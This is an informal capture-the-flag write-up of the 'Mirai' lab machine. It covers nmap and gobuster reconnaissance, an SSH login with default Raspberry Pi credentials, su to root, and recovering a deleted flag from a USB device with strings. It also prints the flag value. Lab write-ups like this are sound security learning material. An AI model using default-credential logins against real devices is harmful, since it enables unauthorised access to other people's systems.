


so we gonna try to do the mirai machine today 
insert some background on the mirai stuff
nmap reveals ssh , http and tcp port 


we know the debian version well after the nmap command, but we will see if something is wrong with that version sometime later. 

this is mirai botnet, i am thinking of trying to find some web interface of sorts first 

gobuster gives out /admin to me 

on going to ip/admin, i get a pihole admin page. that is good as now i can assume that it is running on a raspberrypi 

since it is named mirai, i will try the default username and password 
using ssh pi@ipaddress and password as raspberry , we got in lol 

after lsing into desktop, we find user.txt . and that is the flag. 


now i need to find the root flag. 
i do this 
`sudo find / "*root*" | grep root.txt`

i get these 

```
/lib/live/mount/persistence/sda2/root/root.txt
/root/root.txt
```

i check out root.txt but I get 

`ls: cannot open directory root/: Permission denied`

whoops, simple fix is just be the root user 

`su -` should get you to root status. 

on reading as the root user , we get 

```
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

We had another mount point when we did the find command, we can check that out. 

I get this... 

```
root@raspberrypi:/lib/live/mount/persistence/sda2/root# ls
root.txt
root@raspberrypi:/lib/live/mount/persistence/sda2/root# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

research why root/root.txt have the same file 

we need usb drive and see its data 

we run `lsblk`

```
root@raspberrypi:~# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```

we can see there is this /media/usbstick

we go there 

```
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Hmmmm, some data recoverly kinda stuff. I will chatgpt it. 
well, i did strings /dev/sdb i got this 
```
root@raspberrypi:/media/usbstick# strings /dev/sdb
\F\f\F\f
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James

```

we can see something like a flag `3d3e483143ff12ec505d026fa13e020b`. putting it in, this turns out to be the flag lol. 